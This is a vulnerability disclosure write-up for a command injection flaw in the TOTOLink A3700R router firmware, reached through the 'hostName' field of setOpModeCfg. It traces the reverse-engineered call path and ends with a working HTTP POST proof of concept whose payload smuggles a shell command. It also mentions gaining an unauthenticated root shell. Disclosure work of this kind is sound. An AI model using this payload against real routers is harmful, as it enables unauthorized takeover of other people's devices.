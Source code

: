 # TOTOLink A3700R V9.1.2u.6134_B20201202 Has an command injection vulnerability

## Overview

- Manufacturer's website information：https://www.totolink.net/
- Firmware download address ： http://www.totolink.cn/home/menu/detail.html?menu_listtpl=download&id=69&ids=36

### Product Information

TOTOLink A3700R V9.1.2u.6134_B20201202 router, the latest version of simulation overview：

![image-20220719210324254](img/image-20220719210324254.png)

## Vulnerability details

TOTOLINK A3700R (V9.1.2u.6134_B20201202) was found to contain a command insertion vulnerability in setOpModeCfg.This vulnerability allows an attacker to execute arbitrary commands through the "hostName" parameter.

![image-20220719225606059](img/image-20220719225606059.png)

![image-20220719225916336](img/image-20220719225916336.png)

![image-20220719231241544](img/image-20220719231241544.png)

By calling these functions over and over again, we can ultimately call sub_4241E0 function (as shown in the last picture). By setting the proto value to 1, we can reach the default branch.V48 passes directly into the dosystem function.

![image-20220719205544791](img/image-20220719205544791.png)

The dosystem function is finally found to be implemented in this file by string matching.

![image-20220719205811209](img/image-20220719205811209.png)

Reverse analysis found that the function was called directly through the system function, which has a command injection vulnerability.

## Recurring vulnerabilities and POC

In order to reproduce the vulnerability, the following steps can be followed:

1. Boot the firmware by qemu-system or other ways (real machine)
2. Attack with the following POC attacks

```
POST /cgi-bin/cstecgi.cgi HTTP/1.1
Host: 192.168.0.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Length: 52
Origin: http://192.168.0.1
DNT: 1
Connection: close
Cookie: SESSION_ID=2:1658224702:2
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Pragma: no-cache
Cache-Control: no-cache

{"hostName":"admin';ps #","proto":"1","opmode":"br","topicurl":"setOpModeCfg"}
```

![image-20220719212510596](img/image-20220719212510596.png)

 The above figure shows the POC attack effect 

![image-20220720065911385](img/image-20220720065911385.png)

Finally, you can write exp to get a stable root shell without authorization.
